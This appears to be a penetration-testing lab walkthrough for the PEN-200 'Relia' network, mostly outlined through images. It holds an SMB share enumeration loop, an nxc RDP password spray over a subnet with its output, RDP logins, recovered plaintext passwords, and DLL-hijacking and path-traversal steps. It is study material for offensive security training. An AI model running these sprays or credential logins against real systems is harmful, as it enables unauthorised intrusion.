## Overview



## Nmap(外網)
* `192.168.x.189`

  

  

* `192.168.x.191`

  

  

  

* `192.168.x.245`

  

  

  

* `192.168.x.246`

  

  

* `192.168.x.247`

  

  

  

* `192.168.x.248`

  

  

  

* `192.168.x.249`

  

  

  

## SMB匿名登入
`while IFS= read -r host; do echo $host;smbclient -N -L //$host/;echo "\n" ;done < outerHosts.txt`



## 192.168.x.189


## 192.168.x.191


* `rdp`
`xfreerdp3 /u:dmzadmin /p:SlimGodhoodMope /v:192.168.246.191 /dynamic-resolution`
```bash
┌──(kali㉿kali)-[~/Desktop/Pen200/Relia]
└─$ nxc rdp 192.168.246.0/24 -u dmzadmin -p SlimGodhoodMope --local-auth
RDP         192.168.246.250 3389   WINPREP          [*] Windows 10 or Windows Server 2016 Build 22000 (name:WINPREP)     (domain:WINPREP) (nla:True)
RDP         192.168.246.249 3389   LEGACY           [*] Windows 10 or Windows Server 2016 Build 20348 (name:LEGACY)     (domain:LEGACY) (nla:True)
RDP         192.168.246.191 3389   LOGIN            [*] Windows 10 or Windows Server 2016 Build 20348 (name:LOGIN) (domain:LOGIN) (nla:True)
RDP         192.168.246.248 3389   EXTERNAL         [*] Windows 10 or Windows Server 2016 Build 20348 (name:EXTERNAL) (domain:EXTERNAL) (nla:False)
RDP         192.168.246.250 3389   WINPREP          [-] WINPREP\dmzadmin:SlimGodhoodMope (STATUS_LOGON_FAILURE)
RDP         192.168.246.247 3389   WEB02            [*] Windows 10 or Windows Server 2016 Build 20348 (name:WEB02) (domain:WEB02) (nla:False)
RDP         192.168.246.249 3389   LEGACY           [-] LEGACY\dmzadmin:SlimGodhoodMope (STATUS_LOGON_FAILURE)
RDP         192.168.246.191 3389   LOGIN            [+] LOGIN\dmzadmin:SlimGodhoodMope (Pwn3d!)
RDP         192.168.246.248 3389   EXTERNAL         [-] EXTERNAL\dmzadmin:SlimGodhoodMope (encoded_data must be a byte string, not NoneType)
RDP         192.168.246.247 3389   WEB02            [-] WEB02\dmzadmin:SlimGodhoodMope (STATUS_LOGON_FAILURE)
Running nxc against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```


## 192.168.x.245
之前看過這類型的漏洞，確認245的Apache版本確實是有漏洞的





* `Path Traversal`
沒找到id_rsa檔案，但嘗試其他加密種類確實有找到私鑰

  

  

* `ssh login`

  

  

* `Privilege escalation`

  

  

  

## 192.168.x.246





* `ssh`

  

* `Privilege escalation`
    1. `sudo version`

       

       

       

    2. `System config`

       

       

       

    3. `sus port`

       

       

       

       

* `8000 port`

  

  

  

  

    1. `Writable Directory for Anita`

       

       

       

* `Privilege escalation(Again)`

  

  

## 192.168.x.247
* 80 Port

  

  

  

  

  

  

* 14020 Port

  

  

  

  

  

* 14080

  

  

  

  

  

    * file upload(Failed)

      

      

      
    
    * Version

      

      

      

    * RCE

      

      

      

* Privilege escalation

  

  

  

## 192.168.x.248

1. kdbx
    ```
    Michael321
    bo
    emma
    sa
    ```
    ```
    12345
    Luigi=Papal1963
    SomersetVinyl1!
    HabitsAgesEnd123
    SAPassword_1998
    welcome1
    ```

   

   

   

   

    2. wwwroot
    `dnnuser`&`DotNetNukeDatabasePassword!`

       

       

2. 灑密碼
    * `smb`

      

    * `ssh`

      

    * `ftp`

      

    * `winrm`

      

    * `rdp`

      

3. rdp
`xfreerdp3 /u:emma /p:SomersetVinyl1! /v:192.168.220.248 /dynamic-resolution`
系統內的C槽有一個不尋常的資料夾，打開裡面的內容發現有一個log檔，裡面的內容顯示缺少`BetaLibrary.Dll`且看起來是每一分鐘定期執行，直接執行後可以得知程式的執行者是`mark`

   

   

   

   

   

   

4. Privilege escalation
`xfreerdp3 /u:mark /p:"\!8@aBRBYdb3\!" /v:192.168.185.248 /dynamic-resolution`
用Powerup找到能夠寫入的環境變數的路徑，但log顯示還是無法找到dll，嘗試直接呼叫dll的名字能夠正常被找到，推測是只能放在跟程式相同的資料夾
而在環境變數裡還能找到一個`Appkey`，用這組密碼跟電腦內的其他使用者組合成功確認為mark的密碼

   

   

   

5. Password spray

   

   

   

## 192.168.x.249
* `8000 port`

  

  

  

    1. `Default Password`
    `admin` & `admin`

       
    
    2. `Exploit`

       

       

       

       

       
    
    3. `RCE`

       

       

* `Privilege Escalation`

  

  

  

  

* `credentials dumps`
`maildmz@relia.com:DPuBT9tGCBrTbR`&`jim@relia.com`

  

## Nmap(內網)
* 172.16.x.7
```
Nmap scan report for 172.16.94.7
Host is up (0.0062s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
| http-title: RELIA INTRANET &#8211; Just another WordPress site
|_Requested resource was http://172.16.94.7/wordpress/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
|_http-generator: WordPress 6.0.3
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-generator: WordPress 6.0.3
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.23 or earlier (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=INTRANET.relia.com
| Not valid before: 2026-01-14T12:52:58
|_Not valid after:  2026-07-16T12:52:58
|_ssl-date: 2026-01-15T13:32:23+00:00; 0s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): IBM z/OS 1.11.X|1.13.X|2.1.X (85%)
OS CPE: cpe:/o:ibm:zos:1.11 cpe:/o:ibm:zos:1.13 cpe:/o:ibm:zos:2.1
Aggressive OS guesses: IBM z/OS 1.11 (85%), IBM z/OS 1.13 (85%), IBM z/OS 2.1 (85%)
No exact OS matches for host (test conditions non-ideal).
